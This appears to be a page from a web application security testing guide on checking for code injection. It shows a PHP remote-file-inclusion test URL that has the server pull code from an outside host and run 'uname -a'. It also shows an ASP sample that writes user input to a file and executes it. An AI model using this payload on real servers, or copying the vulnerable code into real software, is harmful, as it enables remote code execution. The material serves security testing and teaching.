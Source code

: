 ## Summary

This section describes how a tester can check if it is possible to enter
code as input on a web page and have it executed by the web server.

In [Code Injection](Code_Injection "wikilink") testing, a tester submits
input that is processed by the web server as dynamic code or as an
included file. These tests can target various server-side scripting
engines, e.g.., ASP or PHP. Proper input validation and secure coding
practices need to be employed to protect against these attacks.

## How to Test

### Black Box testing

#### Testing for PHP Injection vulnerabilities

Using the querystring, the tester can inject code (in this example, a
malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

**Result Expected:**

The malicious URL is accepted as a parameter for the PHP page, which
will later use the value in an included file.

### Gray Box testing

#### Testing for ASP Code Injection vulnerabilities

Examine ASP code for user input used in execution functions. Can the
user enter commands into the Data input field? Here, the ASP code will
save the input to a file and then execute it:

`<%`
`If not isEmpty(Request( "Data" ) ) Then`
`Dim fso, f`
`'User input Data is written to a file named data.txt`
`Set fso = CreateObject("Scripting.FileSystemObject")`
`Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)`
`f.Write Request("Data") & vbCrLf`
`f.close`
`Set f = nothing`
`Set fso = Nothing`

`'Data.txt is executed`
`Server.Execute( "data.txt" )`

`Else`
`%>`

<form>

<input name="Data" /><input type="submit" name="Enter Data" />

</form>

`<%`
`End If`
`%>)))`

## References

  - Security Focus - <http://www.securityfocus.com>

<!-- end list -->

  - Insecure.org - <http://www.insecure.org>

<!-- end list -->

  - Wikipedia - <http://www.wikipedia.org>

<!-- end list -->

  - Reviewing Code for [OS Injection](OS_Injection "wikilink")